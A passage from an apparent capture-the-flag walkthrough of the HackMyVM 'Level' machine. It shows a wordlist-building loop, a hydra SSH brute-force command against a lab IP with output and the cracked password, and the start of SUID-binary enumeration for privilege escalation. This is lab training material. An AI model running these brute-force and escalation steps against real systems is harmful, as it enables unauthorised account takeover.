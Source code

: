 for x in $(cat level.txt); 
        do echo "0n30n3"$x  >> level1.txt ;done
```

![image](https://user-images.githubusercontent.com/69868171/140077714-f69ebaaf-3c68-46b7-bfb6-b2f85aafd948.png)

We have our wordlist ready now hit SSH.

### Enumeration On Port 65000 SSH

Brute forcing SSH using hydra with our wordlist we just created.

```
┌──(muzec㉿Muzec-Security)-[~/Documents/HackMyVm/level]
└─$ hydra -l one -P level1.txt ssh://172.16.109.148:65000
Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2021-11-03 12:20:13
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 1000 login tries (l:1/p:1000), ~63 tries per task
[DATA] attacking ssh://172.16.109.148:65000/
[STATUS] 176.00 tries/min, 176 tries in 00:01h, 824 to do in 00:05h, 16 active
[STATUS] 112.00 tries/min, 336 tries in 00:03h, 664 to do in 00:06h, 16 active
[65000][ssh] host: 172.16.109.148   login: one   password: 0n30n3666
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2021-11-03 12:26:25
```

Boom we have the right credentials now let log in SSH.

### SSH as User One

![image](https://user-images.githubusercontent.com/69868171/140079642-132ddd4f-03aa-4b79-a985-a8b8f165344a.png)

We are in and we have user.txt.

![image](https://user-images.githubusercontent.com/69868171/140080295-787c5b69-c2ff-4a66-bd05-dea6b3865866.png)

### Privilege Escalation

First thing first let check `sudo -l` .

![image](https://user-images.githubusercontent.com/69868171/140081460-9721d207-aaf7-4b34-9ced-b3120a5e8a90.png)

Nah no `Sudo` let check `SUID` .

```
one@Level:~$ find / -perm -u=s -type f 2>/dev/null
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/openssh/ssh-keysign
/usr/lib/eject/dmcrypt-get-device
/usr/bin/gpasswd
/usr/bin/mount
/usr/bin/passwd
/usr/bin/chfn
/usr/bin/newgrp
/usr/bin/su